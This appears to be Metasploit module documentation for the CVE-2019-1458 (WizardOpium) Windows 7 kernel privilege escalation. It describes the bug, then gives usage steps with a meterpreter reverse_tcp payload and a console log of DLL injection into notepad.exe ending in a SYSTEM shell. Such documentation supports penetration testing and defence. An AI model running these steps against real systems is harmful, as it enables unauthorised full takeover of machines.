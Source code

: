 ## Vulnerable Application

This module exploits CVE-2019-1458, aka WizardOpium, a bug that occurs because a field within the tagSERVERINFO structure
at *(gpsi+0x154) was uninitialized, which allowed user mode attackers to set extra window data pointer in a
task switch window (designated by the FNID_SWITCH window class), which would otherwise only be able to be
set by the kernel. By setting this extra window data pointer, an attacker can write a limited amount of data
to an arbitrary kernel address in memory, thus providing them with an arbitrary kernel write primitive than can
be used to elevate privileges to SYSTEM.

This module has been tested against Windows 7 x64 SP1. Offsets
within the solution may need to be adjusted to work with other versions
of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/cve_2019_1458_wizardopium`
1. `set session <session>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.17514

```
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 172.24.15.185:4444
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.24.15.185:4444) at 2020-10-09 15:18:22 -0500

meterpreter > getuid
Server username: test-PC\test
meterpreter > privs
[-] Unknown command: privs.
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2019_1458_wizardopium
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > show options

Module options (exploit/windows/local/cve_2019_1458_wizardopium):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS  notepad.exe      yes       Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.24.12.125    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 x64


msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set LPORT 6633
LPORT => 6633
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > exploit

[*] Started reverse TCP handler on 172.24.12.125:6633
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 2816 launched.
[*] Injecting exploit into 2816 ...
[*] Exploit injected. Injecting payload into 2816...
[*] Payload injected. Executing exploit...
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 2 opened (172.24.12.125:6633 -> 172.24.15.185:49223) at 2020-10-09 15:19:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  test-PC\test @ TEST-PC         0.0.0.0:0 -> 172.24.15.185:4444 (172.24.15.185)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ TEST-PC  172.24.12.125:6633 -> 172.24.15.185:49223 (172.24.15.185)

msf6 exploit(windows/local/cve_2019_1458_wizardopium) >
```

